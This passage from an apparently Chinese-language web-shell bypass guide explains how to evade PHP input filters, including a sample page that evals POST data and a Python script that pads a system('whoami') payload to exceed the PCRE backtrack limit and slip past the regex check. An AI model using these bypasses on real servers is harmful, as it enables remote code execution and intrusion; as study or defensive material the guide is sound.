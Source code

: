`/m` 是多行匹配，但是当出现换行符 `%0a` 的时候会被当做两行处理，而此时只可以匹配第 1 行，后面的行就会被忽略

#### 8.5.2 回溯绕过

PHP 正则利用的是 NFA（非确定性有限自动机），想了解这个的可以百度找相关文章

-   遇到 `.*` 或者 `.+` ==> 直接匹配字符串末尾，然后一个个回溯，与之后的模式比较
-   遇到 `.*?` 或者 `.+?` ==> 非贪婪模式，在匹配到符合的字符串就停止 ==> 由下一个模式匹配 ==> 下一个模式不符合，回溯 ==> 再由 `.*?` 匹配直到下一个模式符合

```bash
if (isset($_POST['f'])) {
    $f = $_POST['f'];
    if (preg_match('/<\?.*[(`;?>].*/is', $f)) {
        die('发现敏感字符串');
    }
    if (stripos($f, 'system(') == False) {
        die('不允许 system');
    }
    eval($_POST['f']);
    echo '恭喜你成功绕过';
}
```

注：PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 `pcre` 设定了一个回溯次数上限 `pcre.backtrack_limit`，可以通过以下代码查看当前环境下的上限：

```bash
var_dump(ini_get('pcre.backtrack_limit'));
```

回溯次数上限默认是 100 万，如果回溯次数超过了 100 万，`preg_match` 返回的便不再是 0 或 1，而是 `false`

可以写一个 Python 脚本来使回溯次数超出 `pcre.backtrack_limit` 限制从而绕过 WAF：

```bash
import requests

url = 'http://***.***.***/WebShell-Bypass-Guide/test.php'
data = {
    'f': 'system(\'whoami\');//'+'Aabyss'*166667
}
reponse = requests.post(url, data=data)
print(reponse.text)
```

### 8.6 `strpos()` 函数绕过

```bash
strpos ( string $haystack , mixed $needle , int $offset = 0 ) : int
```

**`stripos()` 用来查找字符串中某部分字符串首次出现的位置 (不区分大小写)**

`strpos()` 函数如果传入数组，便会返回 NULL

### 8.7 `ereg()` 函数绕过

```bash
int ereg(string pattern, string originalstring, [array regs]);
```
